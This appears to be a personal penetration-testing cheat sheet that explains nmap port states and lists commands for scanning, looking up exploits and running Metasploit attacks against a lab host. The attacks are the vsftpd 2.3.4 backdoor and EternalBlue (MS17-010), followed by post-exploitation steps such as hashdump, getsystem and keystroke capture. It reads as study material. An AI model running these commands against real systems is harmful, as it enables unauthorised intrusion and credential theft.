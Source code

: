 # Port Scanning
1. **Open**: The port is actively accepting TCP connections or UDP datagrams. An open port indicates a service is running on the target machine, listening for connections or data.
2. **Closed**: The port is accessible but there is no application listening on it. Closed ports respond to Nmap's attempts but indicate there is no service to connect to. Closed ports can still be of interest as they show that a host is up and responding, and they could potentially be opened to start a service.
3. **Filtered**: Nmap cannot determine whether the port is open because packet filtering prevents its probes from reaching the port. The filtering could be due to a firewall, router rules, or other network security measures that drop packets to or from the port.
4. **Unfiltered**: The port is accessible, but Nmap cannot determine if it is open or closed. This state is used for some scan types where open and closed states cannot be differentiated.
5. **Open|Filtered**: This state is used when Nmap cannot determine if a port is open or filtered. This can happen for scan types that are unable to distinguish between a port being open or being filtered by a firewall.
6. **Closed|Filtered**: This is a state specifically used for IPv6 scanning with Nmap. It indicates that Nmap cannot determine whether a port is closed or filtered.
`>sudo nmap -T5 -sS -A -sC {target_ip}`

# Vulnerability Assessment
`>searchsploit vsftpd 2.3.4 (from nmap –A –sC 192.168.1.2 things running on ports)`
OR Nessus GUI Do a scan

# Exploitation (following assessment)
```
>sudo msfconsole
>search vsftp
>use exploit/unix/ftp/vsftpd_234_backdoor
>show options
>set RHOSTS 192.168.1.2 (target)
>exploit
This should give shell
>whoami, ps, cd etc
```

# Post Exploitation (Win 10)
```
>sudo msfconsole
>search eternalblue
>use exploit/windows/smb/ms17_010_psexec
>set RHOST 192.168.1.2 (target IP)
>set LHOST {local ip}
>exploit
>ps (processes)
>help (shows options to post exploit)
>ps - get id of explorer.exe (or something running as system)
>migrate XXXX 
>screenshot
>getui
>screenshare
>hashdump 
>getsystem
>run <script>
>keyscan_start/keyscan_dump
>run winenum (for system information)
```

